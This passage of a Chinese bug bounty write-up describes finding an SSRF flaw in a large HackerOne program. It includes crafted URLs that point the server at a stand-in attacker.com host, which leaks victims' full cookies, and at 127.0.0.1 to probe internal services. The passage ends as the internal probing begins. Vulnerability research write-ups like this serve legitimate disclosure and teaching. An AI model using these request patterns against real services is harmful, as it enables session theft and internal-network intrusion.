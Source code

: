 #  如何通过一个SSRF漏洞挖出百万用户数据   
原创 漏洞集萃  漏洞集萃   2025-05-29 07:39  
  
****  
今天给大家分享一个我最近在HackerOne上一个拥有超过8000万活跃用户的公开项目中挖到的“大宝贝”。  
  
这个故事有点曲折，充满了探索和惊喜，我把它分成了几个阶段，希望能带你沉浸式体验一把挖洞的乐趣。  
  
**第一幕：一个动态端点的“意外”馈赠**  
  
故事的开始，源于我对目标应用社交媒体分享模板功能的JavaScript代码审计。一段看似平平无奇的代码引起了我的注意：  
```

  WORKSPACE:"/api/client/workspaces/find/{hostName}",

```  
  
这个 {hostName}  
 占位符，像不像一个可以动态替换的入口？我心想，这多半是后端要根据这个 hostName  
 去做点什么。  
  
目标的API根路径是 https://target.com/social-media-name/  
。 于是，我随手构造了一个URL，把 hostName  
 设置成了目标自己的域名：https://target.com/social-media-name/api/client/workspaces/find/target.com  
  
返回了一些数据，看起来平平无奇。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOLesnx9McM977y5gHF2h8sEia5pYe98AOohpqgziaCnaF3pE9nNaicjZSeRtvgONMqwzzibG4f0Jz1s8A/640?wx_fmt=other&from=appmsg "")  
  
**“要不，试试我自己的服务器？”**  
  
 这个念头一闪而过。 我立马把URL改成了：https://target.com/social-media-name/api/client/workspaces/find/attacker.com  
  
Bingo！我的服务器收到了请求！而且，我还能看到服务器的响应。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOLesnx9McM977y5gHF2h8sE4EjLK2xf5Z3T36MrZEfzkZSQUDG7X6iaD3bsibsdiaOicMZ1wqZ6biaKhUw/640?wx_fmt=other&from=appmsg "")  
  
但真正让我心跳加速的，是请求里附带的东西——**用户的完整Cookie！**  
  
  
这意味着，如果受害者访问了我构造的链接，他们的Cookie就会原封不动地发到我的服务器上。这简直是账户接管的节奏啊！  
  
不过，先别急着激动，我们继续深挖。我发现，目标服务器向我服务器发起的请求，路径是固定的：https://attacker.com/api/v1/workspaces/find/  
。这说明后端的请求逻辑是拼接了这个固定路径的。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Y5LD4fX7WOLesnx9McM977y5gHF2h8sED4Tian2RysbDIhN2lxohsdYt7bE6nLZq7CQy2SsvkYOBZa78bVPSZcQ/640?wx_fmt=other&from=appmsg "")  
  
**第二幕：内网的诱惑与HTTPS的“坚壁”**  
  
有了这个发现，我几乎可以代表服务器发送任意请求了。  
  
首当其冲的，自然是尝试访问内网IP，比如 127.0.0.1  
：https://target.com/social-media-name/api/client/workspaces/find/127.0.0.1  
  
结果，报错了：connect ECONNREFUSED 127.0.0.1:443  
  
这个错误信息，尤其是 ECONNREFUSED  
 和目标端口 443  
，让我联想到了Node.js里的Axios库。  
  